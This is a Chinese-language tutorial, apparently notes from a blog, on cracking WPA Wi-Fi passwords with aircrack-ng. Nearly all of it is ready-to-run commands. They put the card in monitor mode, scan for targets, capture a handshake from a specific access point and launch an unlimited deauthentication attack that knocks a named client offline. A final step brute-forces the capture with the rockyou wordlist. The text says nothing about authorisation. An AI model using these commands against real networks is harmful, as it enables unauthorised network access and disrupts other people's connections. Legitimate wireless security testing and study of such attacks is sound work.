 
`iwconfig`


## 查看无线网卡

`airmon-ng`
上面命令列出了支持监控模式的无线网卡。如果没有任何输出，表示无线网卡不支持监控模式。

## 开启网卡监听模式,记录Interface名称

`airmon-ng  start wlan0`
如果有下图提示表示有其他网卡处于监控模式。

## 扫描信号

`airodump-ng wlan0mon`

 *   BSSID是AP端的MAC地址
 *  PWR是信号强度，数字越小越好
 *  Data是对应的路由器的在线数据吞吐量，数字越大，数据上传量越大。
 *   CH是对应路由器的所在信道
 *   ESSID是对应路由器的名称

找到目标后，`ctrl + c` 中止

## 抓取握手包

```
airodump-ng -c 11 -w ./test --bssid 78:44:FD:83:0B:2C wlan0mon
airodump-ng -c <AP的信道> -w <抓取握手包的存放位置名称> --bssid <AP的MAC地址> <你的的Interface名称>
```

## 解除认证
保持上一个terminal窗口的运行状态，打开一个新的terminal,进行解除认证攻击
强制连接到wifi的设备重新连接路由器，掉线设备重连后，如图所示位置显示`WPA handshake --`即成功抓取到握手包。
两个terminal使用`ctrl+c`终止攻击和握手抓包。

```
aireplay-ng -0 0 -a 9C:A6:15:D0:04:C9 -c D8:32:E3:A7:B9:6F wlan0mon
aireplay-ng -<攻击模式，我们这里使用 解除认证攻击(数字0)> [攻击次数，0为无限攻击] -a <AP端的MAC地址> -c <客户端端的MAC地址> <interface名称>
```

## 关闭无线网卡的监听模式
`airmon-ng stop wlan0mon`

## 使用字典
kali下自带一份无线密码字典 -->`/usr/share/wordlists/rockyou.txt.gz`
解压：
`gzip -d /usr/share/wordlists/rockyou.txt.gz`

```
aircrack-ng  -w  /usr/share/wordlists/rockyou.txt  -b  BC:46:99:3D:66:D6 tplink-01.cap
#-w指定 密码字典 -b指定路由器的MAC地址
```

爆破成功后，如图区域位置显示`KEY FOUND!`字样，中括里为AP端的密码。

# 参考文章
[使用Aircrack-ng 工具进行WIFI的监听和破解 - 林中静月下仙的博客](https://blog.csdn.net/qq_21137441/article/details/88795079)
